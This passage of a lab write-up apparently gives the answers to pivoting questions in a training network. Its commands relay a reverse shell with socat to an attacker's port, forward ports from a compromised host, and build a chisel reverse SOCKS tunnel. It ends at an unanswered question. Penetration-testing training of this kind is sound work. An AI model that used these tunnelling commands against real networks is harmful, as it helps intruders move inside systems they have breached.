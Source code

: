 *~ ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN*

## Task 12: Pivoting plink.exe

#### Question 1: What tool can be used t convert OpenSSH keys into PuTTY style keys?

*~ puttygen*

## Task 13: Pivoting Socat

#### Question 1: Which socat option allows you to reuse the same listening port for more than one connection?

*~ reuseaddr*

#### Question 2: If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

Use TCP port 8000 for the server listener, and do not background the process.

*~ ./socat tcp-l:8000 tcp:172.16.0.200:443*

#### Question 3: What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?

*~ ./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &*

## Task 14: Pivoting Chisel

#### Question 1: What command would you use to start a chisel server for a reverse connection on your attacking machine?

Use port 4242 for the listener and do not background the process.

*~ ./chisel server -p 4242 — reverse*

#### Question 2: What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?

*~ ./chisel client 172.16.0.200:4242 R:socks &*

#### Question 3: How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
